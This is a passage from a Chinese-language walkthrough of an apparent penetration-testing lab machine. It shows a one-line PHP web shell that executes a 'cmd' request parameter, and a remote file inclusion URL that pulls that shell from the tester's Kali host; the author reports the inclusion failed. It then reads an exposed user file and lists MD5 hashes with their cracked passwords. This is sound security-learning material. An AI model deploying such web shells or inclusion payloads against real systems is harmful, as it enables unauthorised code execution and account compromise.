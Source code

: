 # 漏洞利用

那么尝试第一个远程测试

创建一个`php`脚本测试，然后在`kali`开启一个`http`服务

```php
<?php if(isset($_REQUEST['cmd'])){ echo "<pre>"; $cmd = ($_REQUEST['cmd']); system($cmd); echo "</pre>"; die; }?>
```

然后构造链接

```shell
http://192.168.10.10:8080/developmentsecretpage/slogin_lib.inc.php?slogin_path=http://192.168.10.6:8888/shell.php
```

不过这里当执行后，并未有远程代码执行的痕迹，也就是`kali`这边的`http`服务并没有收到请求，所以，这个远程代码执行的漏洞，可能不存在

![](./pic-devt/22.jpg)

那么测试第二种，查看敏感文件

```shell
http://192.168.10.10:8080/developmentsecretpage/slog_users.txt
```

![](./pic-devt/23.jpg)

这里可以看到，应该是`md5`加密，尝试使用网站解密吧，因为快，建议使用`somd5.com`，之前的`cmd5.com`这个网站，唉，收费的有点多

| 用户    | MD5                              | 密码                 |
| ------- | -------------------------------- | -------------------- |
| intern  | 4a8a2b374f463b7aedbb44a066363b81 | 12345678900987654321 |
| patrick | 87e6d56ce79af90dbe07d387d3d0579e | P@ssw0rd25           |
| qiu     | ee64497098d0926d198f54f6d5431f98 | qiu                  |
